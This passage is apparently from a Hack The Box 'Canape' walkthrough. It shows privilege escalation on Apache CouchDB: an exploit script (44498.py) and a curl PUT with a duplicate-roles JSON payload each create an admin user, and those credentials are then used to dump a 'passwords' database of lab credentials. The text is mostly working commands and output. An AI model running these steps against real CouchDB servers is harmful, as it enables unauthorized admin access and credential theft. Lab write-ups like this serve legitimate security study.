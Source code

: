 ### Apache CouchDB PE

[*Poc code here*](https://github.com/leecybersec/walkthrough/tree/master/hackthebox/canape)

Using exploit `linux/webapps/44498.py`, I create a credential `hades:leecybersec` as a admin in the database.

```
www-data@canape:/tmp$ python 44498.py -P leecybersec -u hades -p 5984 127.0.0.1
[+] User to create: hades
[+] Password: leecybersec
[+] Attacking host 127.0.0.1 on port 5984
[+] User hades with password leecybersec successfully created.
```

We also run curl with function PUT to sent the payload

```
curl -X PUT -d '{"type":"user","name":"leevn", "roles":["_admin"],"roles":[],"password":"leevn"}' localhost:5984/_users/org.couchdb.user:leevn -H "Content-Type:application/json"
{"ok":true,"id":"org.couchdb.user:leevn","rev":"1-de62ec86a122727ccc9844ab17419a37"}
```

Back to database `passwords` and run query command with new admin credential

```
www-data@canape:/tmp$ curl -X GET http://hades:leecybersec@127.0.0.1:5984/passwords/_all_docs

{"total_rows":4,"offset":0,"rows":[
{"id":"739c5ebdf3f7a001bebb8fc4380019e4","key":"739c5ebdf3f7a001bebb8fc4380019e4","value":{"rev":"2-81cf17b971d9229c54be92eeee723296"}},
{"id":"739c5ebdf3f7a001bebb8fc43800368d","key":"739c5ebdf3f7a001bebb8fc43800368d","value":{"rev":"2-43f8db6aa3b51643c9a0e21cacd92c6e"}},
{"id":"739c5ebdf3f7a001bebb8fc438003e5f","key":"739c5ebdf3f7a001bebb8fc438003e5f","value":{"rev":"1-77cd0af093b96943ecb42c2e5358fe61"}},
{"id":"739c5ebdf3f7a001bebb8fc438004738","key":"739c5ebdf3f7a001bebb8fc438004738","value":{"rev":"1-49a20010e64044ee7571b8c1b902cf8c"}}
]}
```

Query single id and get value:

```
curl -X GET http://hades:leecybersec@127.0.0.1:5984/passwords/739c5ebdf3f7a001bebb8fc4380019e4
{"_id":"739c5ebdf3f7a001bebb8fc4380019e4","_rev":"2-81cf17b971d9229c54be92eeee723296","item":"ssh","password":"0B4jyA0xtytZi7esBNGp","user":""}
curl -X GET http://hades:leecybersec@127.0.0.1:5984/passwords/739c5ebdf3f7a001bebb8fc43800368d
{"_id":"739c5ebdf3f7a001bebb8fc43800368d","_rev":"2-43f8db6aa3b51643c9a0e21cacd92c6e","item":"couchdb","password":"r3lax0Nth3C0UCH","user":"couchy"}
curl -X GET http://hades:leecybersec@127.0.0.1:5984/passwords/739c5ebdf3f7a001bebb8fc438003e5f
{"_id":"739c5ebdf3f7a001bebb8fc438003e5f","_rev":"1-77cd0af093b96943ecb42c2e5358fe61","item":"simpsonsfanclub.com","password":"h02ddjdj2k2k2","user":"homer"}
curl -X GET http://hades:leecybersec@127.0.0.1:5984/passwords/739c5ebdf3f7a001bebb8fc438004738
{"_id":"739c5ebdf3f7a001bebb8fc438004738","_rev":"1-49a20010e64044ee7571b8c1b902cf8c","user":"homerj0121","item":"github","password":"STOP STORING YOUR PASSWORDS HERE -Admin"}
```
